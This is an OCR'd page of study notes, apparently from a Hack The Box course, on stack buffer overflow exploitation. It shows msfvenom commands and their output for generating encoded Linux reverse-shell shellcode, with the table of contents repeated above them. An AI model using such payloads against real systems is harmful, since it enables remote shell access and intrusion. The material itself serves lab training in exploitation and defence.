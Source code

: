 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
      - [MSFvenom - Generate Shellcode](#MSFvenom\-\Generate\Shellcode)
      - [Shellcode](#Shellcode)
      - [Notes](#Notes)
      - [Exploit with Shellcode](#Exploit\with\Shellcode)
      - [The Stack](#The\Stack)
      - [Character List](#Character\List)
      - [Calculate CHARS Length](#Calculate\CHARS\Length)
      - [Notes](#Notes)
- [Identification of the Return Address](#identification\of\the\return\address)
      - [GDB NOPS](#GDB\NOPS)
- [Prevention Techniques and Mechanisms](#prevention\techniques\and\mechanisms)
  - [Canaries](#Canaries)
  - [Address Space Layout Randomization (ASLR)](#Address\Space\Layout\Randomization\(ASLR))
  - [Data Execution Prevention (DEP)](#Data\Execution\Prevention\(DEP))

## Table of Contents

      - [MSFvenom - Generate Shellcode](#MSFvenom\-\Generate\Shellcode)
      - [Shellcode](#Shellcode)
      - [Notes](#Notes)
      - [Exploit with Shellcode](#Exploit\with\Shellcode)
      - [The Stack](#The\Stack)
      - [Character List](#Character\List)
      - [Calculate CHARS Length](#Calculate\CHARS\Length)
      - [Notes](#Notes)
- [Identification of the Return Address](#identification\of\the\return\address)
      - [GDB NOPS](#GDB\NOPS)
- [Prevention Techniques and Mechanisms](#prevention\techniques\and\mechanisms)
  - [Canaries](#Canaries)
  - [Address Space Layout Randomization (ASLR)](#Address\Space\Layout\Randomization\(ASLR))
  - [Data Execution Prevention (DEP)](#Data\Execution\Prevention\(DEP))

msfvenom shellcode payload syntax:
  
MSFvenom Syntax

```shell-session
gdxqpardo@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
```
#### MSFvenom - Generate Shellcode

  MSFvenom - Generate Shellcode

```shell-session
gdxqpardo@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode
```
#### Shellcode
